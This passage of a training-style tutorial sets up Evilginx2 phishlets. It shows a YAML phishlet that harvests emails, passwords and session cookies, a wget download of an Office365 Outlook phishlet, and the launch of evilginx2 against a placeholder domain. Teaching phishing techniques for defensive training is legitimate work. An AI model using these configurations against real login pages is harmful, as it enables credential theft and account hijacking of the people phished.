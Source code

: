 </code></pre>
<hr/>
<h3>Phishlet Configuration</h3>
<p><code>Phishlets</code> are phishing pages that can easily be set up by the attacker for use with Evilginx2. They are configured using <code>.yaml</code> files, an example of which can be seen below:</p>
<pre><code class="language-yaml">min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: 'academy', orig_sub: 'academy', domain: 'breakdev.org', session: true, is_landing: true, auto_filter: true}
sub_filters:
  - {triggers_on: 'breakdev.org', orig_sub: 'academy', domain: 'breakdev.org', search: 'something_to_look_for', replace: 'replace_it_with_this', mimes: ['text/html']}
auth_tokens:
  - domain: '.academy.breakdev.org'
    keys: ['cookie_name']
credentials:
  username:
    key: 'email'
    search: '(.*)'
    type: 'post'
  password:
    key: 'password'
    search: '(.*)'
    type: 'post'
login:
  domain: 'academy.breakdev.org'
  path: '/evilginx-mastery'
</code></pre>
<p><code>Evilginx2 v3.3.0</code> does not come with any pre-installed phishlets, so we need to obtain them manually. For this demonstration, we will set up an Office365 Outlook login phishlet. An existing <code>.yaml</code> configuration file for this can be found <a href="https://raw.githubusercontent.com/An0nUD4Y/Evilginx2-Phishlets/refs/heads/master/outlook(o365).yaml">here</a>.</p>
<p>Alternatively, we can write our own phishlet based on any website we want to convert into a phishlet. Documentation on the structure and syntax of phishlet files can be found <a href="https://help.evilginx.com/community/phishlet-format">here</a>.</p>
<pre><code class="language-shell-session">[!bash!]$ cd /usr/share/evilginx2/phishlets

[!bash!]$ wget https://raw.githubusercontent.com/An0nUD4Y/Evilginx2-Phishlets/refs/heads/master/outlook(o365).yaml

[!bash!]$ mv outlook(o365).yaml o365.yaml &amp;&amp; cat o365.yaml

[..SNIP..]

proxy_hosts:

  - {phish_sub: 'outlook', orig_sub: 'outlook', domain: 'live.com', session: true, is_landing: true}

  - {phish_sub: 'login', orig_sub: 'login', domain: 'live.com', session: true, is_landing: false}

  - {phish_sub: 'account', orig_sub: 'account', domain: 'live.com', session: false, is_landing: false}

[..SNIP..]
</code></pre>
<p>Once the phishlet is added to the correct directory, we need to instruct Evilginx2 to make use of it. Associating it with the attacker-controlled domain will automatically prompt Evilginx2 to generate all the TLS certificates it requires to operate successfully. We will skip this step using the <code>-developer</code> parameter upon launch, since the domain <code>fakedomain.com</code> does not exist, and TLS certificates can therefore not be generated for it.</p>
<pre><code class="language-shell-session">[!bash!]$ evilginx2 -developer
